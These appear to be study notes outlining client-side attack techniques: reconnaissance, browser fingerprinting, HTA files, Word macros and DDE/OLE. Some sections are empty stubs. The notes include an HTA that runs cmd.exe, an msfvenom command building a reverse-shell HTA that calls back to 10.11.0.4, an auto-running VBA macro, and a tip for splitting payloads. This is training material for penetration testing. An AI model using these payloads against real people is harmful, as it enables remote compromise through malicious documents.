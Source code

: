 # Client-Side Attacks

## know target

### passive client information gathering

- site that hosts collected user agent data from various affiliate sites.
- social media
- forum websites
- photos of computer screens

### active client information gathering

1. Social Engineering and Client-Side Attacks

    pass

2. Client Fingerprinting

   [Fingerprintjs2 JavaScript library](https://github.com/Valve/fingerprintjs2)

3. Leveraging HTML Applications

   - type: .hta, .html ..
   - language: JavaScript, VBScript

hta demo
```html
<html>
   <body>
      <script>
         var c= 'cmd.exe'
         new ActiveXObject('WScript.Shell').Run(c);
      </script>
   </body>
</html>
```

msfvenom

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

4. Exploiting Microsoft Office

Microsoft Word Macro, VBA

filetype: .docm, .doc

```visualbasic
Sub AutoOpen()
   MyMacro
End Sub

Sub Document_Open()
   MyMacro
End Sub

Sub MyMacro()
   CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

vba字符串常量长度上限为255, 但是变量中字符串长度不受次限制, 所以可以将payload分成多行拼接到变量中:

```visualbasic
dim Str as String

Str = ""
Str = Str + "AAAAA"
Str = Str + "BBBBB"
Str = Str + "CCCCC"
Str = Str + "DDDDD"
```

5. Object Linking and Embedding

DDE(Dynamic Data Exchange)
OLE(Object Linking and Embedding)

Evading Protected View by Microsoft Publisher



















